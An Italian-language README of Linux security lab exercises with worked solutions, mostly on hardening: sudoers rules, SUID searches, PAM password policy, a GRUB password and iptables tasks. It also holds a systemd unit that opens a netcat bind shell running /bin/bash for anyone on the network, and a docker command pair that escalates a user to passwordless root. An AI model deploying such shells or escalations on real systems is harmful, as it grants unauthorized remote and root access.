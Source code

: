 # useful-links-cysec
- [here document](https://thelinuxcode.com/what-is-cat-eof-bash-script/)
- [regex cheatsheet](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_expressions/Cheatsheet)
- [sed guide](https://www.gnu.org/software/sed/manual/sed.html)
----
- Configura sudo affinchè un utente possa eseguire solo un comando specifico (e.s: nmap)
  - ```bash
    #/etc/sudoers.d/buonhobo

    buonhobo ALL = /usr/bin/nmap
    ```
  - [sudoers guide](https://www.digitalocean.com/community/tutorials/how-to-edit-the-sudoers-file)
- Configura sudo affinchè un utente possa eseguire solo un comando specifico ma senza un parametro (e.s: si puo eseguire nmap ma non nmap -p). Nota: si possono mettere espressioni regolari nel file sudoers
  - ```bash
    #/etc/sudoers.d/buonhobo

    buonhobo ALL = /usr/bin/nmap, !/usr/bin/nmap -p
    ```
  - [sudoers regex](https://www.sudo.ws/posts/2022/03/sudo-1.9.10-using-regular-expressions-in-the-sudoers-file/)
- Cercare tutti gli eseguibili con SUID
  - ```bash
    find / -perm -4000 -type f -ls
    ```
  - ```bash
    find / -perm -u=s -type f -ls
    ```
  - [find cheatsheet](https://cheat.sh/find)
- Cercare tutti gli eseguibili con GUID
  - ```bash
    find / -perm -2000 -type f -ls
    ```
  - ```bash
    find / -perm -g=s -type f -ls
    ```
- Creare uno unit file di Systemd per permettere una shell aperta a tutti sulla rete (netcat in modalità listen con il processo /bin/bash) e provare a connettersi dalla propria macchina usando netcat
  - ```bash
    #/etc/systemd/system/netcat.service

    [Unit]
    Description=Netcat shell

    [Service]
    # connect using `nc localhost 1234`
    ExecStart=/bin/nc -l -p 1234 -e /bin/bash

    [Install]
    WantedBy=default.target
    ```
  - [systemd arch wiki](https://wiki.archlinux.org/title/Systemd#Writing_unit_files)
  - [systemd manual](https://www.freedesktop.org/software/systemd/man/latest/systemd.unit.html)
- Installare e configurare un modulo PAM per richiedere caratteristiche minime alla password (min 8 caratteri, maiuscole, minuscole e simboli)
  - ```bash
    #/etc/pam.d/common-password <- per forza qui, il file esiste già e va modificato con sed

    #...
    password requisite pam_pwquality.so retry=3 minlen=8 ucredit=-1 lcredit=-1 dcredit=-1 ocredit=-1
    #...
    ```
  - [pam guide](https://www.tecmint.com/configure-pam-in-centos-ubuntu-linux/)
  - [cracklib guide](https://linux.die.net/man/8/pam_cracklib)
- Imposta una password a GRUB così da non permettere l'avvio del sistema operativo con parametri del kernel non standard
  - ```bash
    # This sets a superuser root with password ciao
    password=ciao
    hash=$(echo -e "$password\n$password" | grub-mkpasswd-pbkdf2 | awk '/grub/ {print $NF}')
    cat << EOF >> /etc/grub.d/40_custom

    set superusers='root'
    password_pbkdf2 root $hash
    EOF

    # This makes the boot entry unrestricted
    # So that the password is only needed for changing it
    # And not for booting the system
    sed -i '0,/^CLASS="/ {//s/"$/ --unrestricted"/}' /etc/grub.d/10_linux

    # This applies the changes
    sudo update-grub
    ```
    - [stack overflow question](https://superuser.com/questions/488275/grub-2-password-protection-in-debian)
- Rendi la cartella /var/log leggibile solo da root
  - ```bash
    # I permessi diventano rwx--x--x
    # Questo permette agli altri di accedere ai file dentro /var/log se hanno il permesso
    # Ma non permette di vedere i file dentro /var/log
    chmod 711 /var/log
    # Si può mettere 700 per dare permesso solo a root
    # E si può usare -R per modificare ricorsivamente i permessi
    ```
- Configura un utente per poter fare cat dei logs ma non essere amministratore (va configurato sudoers in modo opportuno)
  - ```bash
    #/etc/sudoers.d/buonhobo

    # This allows running cat inside /var/log but does not allow using .. to access other directories
    buonhobo ALL = /usr/bin/cat ^/var/log/.+$, !/usr/bin/cat ^/var/log/.*(\.\.).*$
    ```
- Trova tutti i processi che hanno un file descriptor aperto dentro la cartella /var/log (il comando lsof tornerà comodo)
  - ```bash
    lsof +D /var/log
    ```
- Usa docker per effettuare un privilege escalation
  - ```bash
    # This adds buonhobo to sudo group
    docker run -v /etc:/ciao alpine sh -c "sed '/sudo/s/[a-z,]*$/buonhobo/' -i /ciao/group"

    # This lets buonhobo use sudo for everything with no password
    docker run -v /etc:/ciao alpine sh -c "echo 'buonhobo ALL=(ALL) NOPASSWD: ALL' >> /ciao/sudoers"
    ```
- Cercare se esiste un qualche file all'interno della home di un utente che sia scrivibile da tutti gli utenti
  - ```bash
    find /home/ -type f -perm -o=w
    ```
- Cercare se esiste una cartella all'interno della home di un utente che sia scrivibile da tutti gli utenti
  - ```bash
    find /home/ -type d -perm -o=w
    ```
- Creare un utente con la password che scade ogni giorno
  - ```bash
    # This creates a user with a password that expires every day
    sudo useradd -m buonhobo
    chage -M 1 buonhobo
    ```
  - [chage cheatsheet](https://cheat.sh/chage)
  - [/etc/shadow manual](https://linux.die.net/man/5/shadow)
----
Per tutta la roba iptables basta consultare il [manuale](https://linux.die.net/man/8/iptables) e la [guida di DigitalOcean](https://www.digitalocean.com/community/tutorials/iptables-essentials-common-firewall-rules-and-commands).
Meglio ricordarsi quando si è in ssh di permettere le connessioni ESTABLISHED e RELATED per non venire disconnessi.
Altra cosa buona è permettere il traffico in loopback

- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22)
- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22) dall'IP 1.2.3.4 e ad un webserver da qualunque IP (TCP port 80 e 443)
- Imposta Iptables affinchè sia bloccato tutto il traffico Internet sulla macchina (gli utenti non possono navigare) ma sia funzionante il webserver (TCP port 80 e 443)
- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22) e ad un webserver (TCP port 80 e 443)
